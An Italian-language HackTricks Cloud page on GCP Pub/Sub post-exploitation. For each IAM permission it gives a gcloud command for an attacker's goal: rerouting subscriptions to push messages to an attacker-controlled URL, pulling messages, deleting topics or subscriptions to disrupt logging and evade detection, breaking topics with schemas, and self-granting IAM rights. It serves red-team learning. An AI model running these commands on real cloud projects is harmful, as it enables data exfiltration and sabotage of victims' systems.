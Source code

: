# GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Pub/Sub

Per ulteriori informazioni su Pub/Sub controlla la seguente pagina:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Pubblica un messaggio in un argomento, utile per **inviare dati inaspettati** e attivare funzionalità inaspettate o sfruttare vulnerabilità:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Utile per impedire a una sottoscrizione di ricevere messaggi, forse per evitare il rilevamento.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Utile per impedire a una sottoscrizione di ricevere messaggi, forse per evitare il rilevamento.\
È possibile eliminare un argomento anche con le sottoscrizioni ad esso collegate.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Usa questo permesso per aggiornare alcune impostazioni del topic per interromperlo, come `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Concediti il permesso di eseguire uno qualsiasi degli attacchi precedenti.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Ottieni tutti i messaggi in un server web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crea un abbonamento e usalo per **estrarre messaggi**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Eliminare un abbonamento** potrebbe essere utile per interrompere un sistema di elaborazione dei log o qualcosa di simile:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Usa questo permesso per aggiornare alcune impostazioni in modo che i messaggi siano memorizzati in un luogo accessibile (URL, tabella Big Query, Bucket) o semplicemente per interromperlo.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Concediti i permessi necessari per eseguire uno qualsiasi degli attacchi precedentemente commentati.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attacca uno schema a un argomento in modo che i messaggi non lo soddisfino e quindi l'argomento venga interrotto.\
Se non ci sono schemi, potresti doverne creare uno.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Questo potrebbe sembrare che eliminando uno schema sarai in grado di inviare messaggi che non soddisfano lo schema. Tuttavia, poiché lo schema verrà eliminato, nessun messaggio entrerà effettivamente all'interno dell'argomento. Quindi questo è **INUTILE**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Concediti i permessi necessari per eseguire uno qualsiasi degli attacchi precedentemente commentati.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Questo creerà uno snapshot di tutti i messaggi non riconosciuti e li rimetterà nell'abbonamento. Non molto utile per un attaccante, ma ecco:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
